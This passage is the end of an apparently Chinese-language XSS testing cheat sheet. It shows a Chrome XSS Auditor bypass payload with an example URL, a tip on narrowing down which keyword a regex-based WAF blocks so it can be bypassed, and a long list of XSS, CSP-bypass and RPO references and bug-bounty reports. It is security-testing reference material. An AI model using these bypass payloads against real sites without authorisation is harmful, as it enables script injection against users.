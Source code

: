 ### Chrome Auditor  - 2018 年 8 月 9 日

```javascript
</script><svg><script>alert(1)-%26apos%3B
```

例子 @brutelogic 
```
https://brutelogic.com.br/xss.php(https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)
```

>考虑到多数WAF都是基于正则拦截，测试过程中遇到XSS被WAF拦截的话建议使用“减法”确认到底是什么关键词被拦截。如`<img src=x onerror=alert(1)>`被拦截，将代码`<img src=x onerror=alert(1)>`改为`<img src=x onerror=>`查看是否拦截，以此类推，确认被拦截关键词然后利用各种方式绕过。

### XSS bypass备忘清单

 [XSS bypass备忘清单](https://www.ddosi.org/xss-bypass/)


## XSS实验室

* [PortSwigger XSS实验室](https://portswigger.net/web-security/all-labs#cross-site-scripting)

## 参考

- [一起学XSS实战案例](https://wy.zone.ci/searchbug.php?q=%E4%B8%80%E8%B5%B7%E5%AD%A6xss&page=2)
- [XSS bypass备忘清单](https://www.ddosi.org/xss-bypass/)
- [Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
- tbm
- [(Relative Path Overwrite) RPO XSS - Infinite Security](http://infinite8security.blogspot.com/2016/02/welcome-readers-as-i-promised-this-post.html)
- [RPO TheSpanner](http://www.thespanner.co.uk/2014/03/21/rpo/)
- [RPO Gadget - innerthmtl](https://web.archive.org/web/20220521125028/https://blog.innerht.ml/rpo-gadgets/)
- [Relative Path Overwrite - Detectify](https://support.detectify.com/support/solutions/articles/48001048955-relative-path-overwrite)
- [XSS ghettoBypass - d3adend](http://d3adend.org/xss/ghettoBypass)
- [XSS without HTML: Client-Side Template Injection with AngularJS](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html)
- [XSSING WEB PART - 2 - Rakesh Mane](http://blog.rakeshmane.com/2017/08/xssing-web-part-2.html)
- [Making an XSS triggered by CSP bypass on Twitter. @tbmnull](https://www.buaq.net/go-25883.html)
- [Ways to alert(document.domain) - @tomnomnom](https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309)
- [D1T1 - Michele Spagnuolo and Lukas Wilschelbaum - So We Broke All CSPs](https://conference.hitb.org/hitbsecconf2017ams/materials/D1T1%20-%20Michele%20Spagnuolo%20and%20Lukas%20Wilschelbaum%20-%20So%20We%20Broke%20All%20CSPS.pdf)
- [Sleeping stored Google XSS Awakens a $5000 Bounty](https://blog.it-securityguard.com/bugbounty-sleeping-stored-google-xss-awakens-a-5000-bounty/) by Patrik Fehrenbach
- [RPO that lead to information leakage in Google](https://web.archive.org/web/20220521125028/https://blog.innerht.ml/rpo-gadgets/) by filedescriptor
- [God-like XSS, Log-in, Log-out, Log-in](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/) in Uber by Jack Whitton
- [Three Stored XSS in Facebook](http://www.breaksec.com/?p=6129) by Nirgoldshlager
- [Using a Braun Shaver to Bypass XSS Audit and WAF](https://blog.bugcrowd.com/guest-blog-using-a-braun-shaver-to-bypass-xss-audit-and-waf-by-frans-rosen-detectify) by Frans Rosen
- [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/) by Jack Whitton
- [Stored XSS in *.ebay.com](https://whitton.io/archive/persistent-xss-on-myworld-ebay-com/) by Jack Whitton
- [Complicated, Best Report of Google XSS](https://sites.google.com/site/bughunteruniversity/best-reports/account-recovery-xss) by Ramzes
- [Tricky Html Injection and Possible XSS in sms-be-vip.twitter.com](https://hackerone.com/reports/150179) by secgeek